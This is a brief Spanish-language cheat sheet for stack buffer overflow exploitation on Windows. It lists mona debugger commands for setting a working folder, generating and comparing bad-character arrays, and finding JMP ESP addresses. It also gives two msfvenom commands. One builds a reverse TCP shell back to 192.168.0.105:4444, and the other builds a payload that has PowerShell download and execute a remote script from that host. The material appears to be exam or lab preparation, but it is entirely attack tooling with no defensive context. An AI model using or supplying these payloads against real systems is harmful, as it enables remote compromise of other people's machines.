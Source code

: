 ## MONA
#### Configurar carpeta de trabajo
!mona -set workingfolder C:\Users\win7bits\Desktop\%p
#### Generar badchars
!mona bytearray -b "\x00"
!mona bytearray -b "\x00\x07"
#### Comparar haciendo referencia al bytearray que generó y la dirección a la que apunta ESP
!mona compare -f C:\mona\appname\bytearray.bin -a <address>
#### Encontrar el punto de salto
!mona jmp -r esp -cpb \x07\x2e\xa0\x00"
#### Encontrar un punto de salto
!mona jmp -r esp -cpb "\x00"

## SHELLCODE
#### cmd
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c
#### Powershell
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c

